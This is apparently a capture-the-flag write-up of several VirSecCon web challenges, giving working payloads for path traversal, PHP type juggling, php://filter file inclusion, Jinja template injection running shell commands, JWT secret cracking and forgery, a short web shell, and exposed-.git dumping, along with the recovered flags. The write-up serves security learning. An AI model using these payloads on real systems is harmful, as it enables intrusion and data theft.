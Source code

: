 
<h1 align="center">Web Exploitation</h1>



<h3>Hot Access 70 points</h3>

Access to all the latest modules, hot off the press! What can you access?

Connect here: http://jh2i.com:50016

```shell

http://jh2i.com:50016/?m=modules/../.htaccess

		<pre> <Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all
 
 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>
	
	AllowOverride All
 
 </Directory></pre>

http://jh2i.com:50016/sshh_dont_tell_i_hid_the_flag_here/flag.txt
LLS{htaccess_can_control_what_you_access}

Flag: LLS{htaccess_can_control_what_you_access}
```


<h3>PHPJuggler 80 points</h3>

PHP is here to entertain again! They’ve shown you magic tricks, disappearing acts, and now… juggling!

Connect here: http://jh2i.com:50030.

<p align="center"><img src="../Files/juggler.png"></img></p>

``` shell
Php Type Juggling strcmp:

submit POST requests with flag[]=flag
Warning: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 6
You got it! That's the correct flag!
LLS{php_dropped_the_ball_again}

Flag: LLS{php_dropped_the_ball_again}
```

<h3>Magician 80 points</h3>

Show me a hat trick!

Connect here: http://jh2i.com:50000

<p align="center"><img src="../Files/magician.png"></img></p>

``` shell
Magic Hash as whihehat security or 247CTF!!!:

hash ==> 0e908377363673038390833004129775
password ==> f789bbc328a3d1a3e4UPoL

Flag: LLS{magic_hashes_make_for_a_good_show}
```

<h3>GLHF 90 points</h3>

LMFAO! FLAG PLZ, THX!

Connect here: http://jh2i.com:50014

``` shell
Local file inclusion: LFI:

http://jh2i.com:50014/index.php?page=php://filter/convert.base64-encode/resource=index

<?php
	
	
	if ( ! isset($_GET['page']) ){

		echo("we got nothing!");
		header('Location: /index.php?page=home');
	}

	else{

		include(str_replace('.php', '', $_GET['page']) . ".php" );
	}
?>	

http://jh2i.com:50014/index.php?page=php://filter/convert.base64-encode/resource=FLAG

<!DOCTYPE html>

<html>
    <head>
        <title> PHPLFIXYZ </title>
    </head>
    <body>

    <h1> FLAG???? </h1>

    <h1> WTF, PLZ??? </h1>

    <!-- SRY PHP LFI NBD -->

    </body>
</html>
<?php
    /*
    // _______________________________________________________________

                        LLS{lmfao_php_filters_ftw}

    // _______________________________________________________________
    */
?>

Flag: LLS{lmfao_php_filters_ftw}
```

<h3>MASK 90 points</h3>

Take off your mask.

Connect here: http://jh2i.com:50023.

<p align="center"><img src="../Files/mask.png"></img></p>

``` shell
Server Side Template Injection:

test ==> {{7*7}} response 49

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

<p align="center"><img src="../Files/mask0.png"></img></p>

<p align="center"><img src="../Files/mask1.png"></img></p>

``` shell
{{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}

Flag: LLS{server_side_template_injection_unmasked}
```


<h3>JaWT 90 points</h3>

Check the admin's scratchpad!

Connect here: http://jh2i.com:50019/

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
Challenge as PicoCTF and use crackjwt.py

FOR JOHN
python crackjwt.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiam9obiJ9.rbnjOn5BykmgvHXJyaasrM08WFQji58yEnmzkfQ8Wmc" /media/sf_D_DRIVE/WORDLISTS/rockyou.dic
Cracking JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiam9obiJ9.rbnjOn5BykmgvHXJyaasrM08WFQji58yEnmzkfQ8Wmc
1648it [00:00, 6560.78it/s]
('Found secret key:', 'fuckit')

FOR ADMIN
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.qfSqP1u-gAhG6r8Vfb31Fi5WkjYCxjRKhFEcLCde8O0

Change value of cookie jwt

 Hello admin!

Here is your JaWT scratchpad!

LLS{jawt_was_just_what_you_thought}

Flag: LLS{jawt_was_just_what_you_thought}
```


<h3>10 Character Web Shell 100 points</h3>

Only 10 char--

Connect here: http://jh2i.com:50001.

``` shell
<?php

    $c = $_GET[c];

    if(strlen($c) < 10){
            echo shell_exec($c);
    }else{
            echo "too long!";
    }
    highlight_file(__FILE__);
?>

http://jh2i.com:50001/?c=cat%20flag*
```
<p align="center"><img src="../Files/web.png"></img></p>

``` shell
Flag: LLS{you_really_can_see_in_the_dark}
```


<h3>Dairy Products 100 points</h3>

There is a new advertising campaign on the classic dairy company’s website. You need to steal their latest product.

Connect here: http://142.93.3.19:50008

```shell
Just use wget because gitdumper.sh don't download repo.

wget -r --no-parent http://142.93.3.19:50008/.git/

git status
git --no-pager log -p | grep LLS{
LLS{you_gitm_gotm_good_partner}

Flag: LLS{you_gitm_gotm_good_partner}
```


<h3>GET Encoded 125 points</h3>

I don't GET this%21 Do you%3F

Connect here: http://jh2i.com:50013

```shell
robots.txt with /?debug
```

<p align="center"><img src="../Files/encod.png"></img></p>

```shell
http://jh2i.com:50013/?%73ystem=ls

flag_that_you_could_never_guess.php
index.php
robots.txt

Machines hunt for more than humans do.

http://jh2i.com:50013/?%73ystem=cat%20flag%5fthat%5fyou%5fcould%5fnever%5fguess.php

<pre><?php
    // the flag is: LLS{i_gotcha_url_encoding}
?>
</pre><p>Machines hunt for more than humans do.</p>

Flag: LLS{i_gotcha_url_encoding}
```


<p align="left"><a href="https://github.com/Ne0Lux-C1Ph3r/WRITE-UP/blob/master/VirSecCon CTF/index.md">Return to the main menu</a></p>
